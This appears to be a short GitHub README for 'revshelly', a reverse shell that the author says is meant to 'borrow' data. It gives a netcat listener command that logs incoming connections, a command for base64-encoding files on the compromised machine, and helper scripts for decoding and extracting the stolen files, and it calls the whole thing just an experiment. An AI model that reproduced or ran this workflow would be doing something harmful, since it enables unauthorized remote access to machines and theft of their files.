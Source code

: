revshelly
=========

A reverse shell designed to "borrow" data without using any special client program.

Listen for connections with netcat:

    nc -l -p 8080|tee revshelly.log

Once connected, you can encode files in base 64:

    uu somefile

You can then decode the files with base64_dec.py (you first have to copy the base64 code of each file into a separate text file):

UPDATE: New script to extract your data: "extract_files.pl" (WARNING: it may fail if you have conflicting patterns in your logfile e.g"BEGIN: something" or "END: something")

    base64_dec.py infile.txt outfile

As you can probably tell, this is nothing serious, just an experiment.
